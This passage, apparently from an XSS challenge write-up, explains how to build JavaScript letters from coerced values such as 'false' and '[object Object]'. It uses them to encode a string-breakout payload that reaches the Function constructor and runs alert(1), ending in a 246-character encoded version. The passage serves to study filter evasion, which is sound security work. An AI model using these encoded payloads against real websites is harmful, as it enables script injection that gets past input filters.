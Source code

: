 We can also try to use our own minimization using the letters in "false", "true", "undefined" and "object":

<table style="border: 1px solid black;">
<tr style="border: 1px solid black;"><td style="border: 1px solid black;padding:15px;">''+!1</td><td style="border: 1px solid black;padding:15px;">false</td></tr>
<tr style="border: 1px solid black;"><td style="border: 1px solid black;padding:15px;">''+!0</td><td style="border: 1px solid black;padding:15px;">true</td></tr>
<tr style="border: 1px solid black;"><td style="border: 1px solid black;padding:15px;">''+{}[0]</td><td style="border: 1px solid black;padding:15px;">undefined</td></tr>
<tr style="border: 1px solid black;"><td style="border: 1px solid black;padding:15px;">''+{}</td><td style="border: 1px solid black;padding:15px;">[object Object]</td></tr>
</table>
<br/>

Strings we will need:

<table style="border: 1px solid black;">
<tr style="border: 1px solid black;"><td style="border: 1px solid black;padding:15px;">sort</td><td style="border: 1px solid black;padding:15px;">[(''+!1)[3]+(''+{})[1]+(''+!0)[1]+(''+!0)[0]]</td></tr>
<tr style="border: 1px solid black;"><td style="border: 1px solid black;padding:15px;">constructor</td><td style="border: 1px solid black;padding:15px;">[(''+{})[5]+(''+{})[1]+(''+{}[0])[1]+(''+!1)[3]+(''+!0)[0]+(''+!0)[1]+(''+!0)[2]+(''+{})[5]+(''+!0)[0]+(''+{})[1]+(''+!0)[1]]</td></tr>
<tr style="border: 1px solid black;"><td style="border: 1px solid black;padding:15px;">alert(1)</td><td style="border: 1px solid black;padding:15px;">(''+!1)[1] + (''+!1)[2] + (''+!1)[4] +(''+!0)[1]+(''+!0)[0]+"(1)"</td></tr>
</table>
<br/>

We will replace the call to **alert(1)** in our payload:

```lang-javascript line-numbers 
"+alert(1))//
```

with the following one so we can simplify the encoding to encode strings.

```lang-javascript line-numbers 
"+[]["sort"]["constructor"]("alert(1)")()//
```

Note: Many other alternatives are possible like:

```lang-javascript line-numbers 
"+(0)['constructor']['constructor']("alert(1)")()//
```

But I found the "sort" one to be the shortest (with other 4 letter functions like "trim")

This is a 246 characters solution:

```lang-javascript line-numbers 
"+[][(''+!1)[3]+(''+{})[1]+(''+!0)[1]+(''+!0)[0]][(''+{})[5]+(''+{})[1]+(''+{}[0])[1]+(''+!1)[3]+(''+!0)[0]+(''+!0)[1]+(''+!0)[2]+(''+{})[5]+(''+!0)[0]+(''+{})[1]+(''+!0)[1]]((''+!1)[1] + (''+!1)[2] + (''+!1)[4] +(''+!0)[1]+(''+!0)[0]+"(1)")())//
```

We can improve it by defining a variable containing all our letters and then just referencing it:
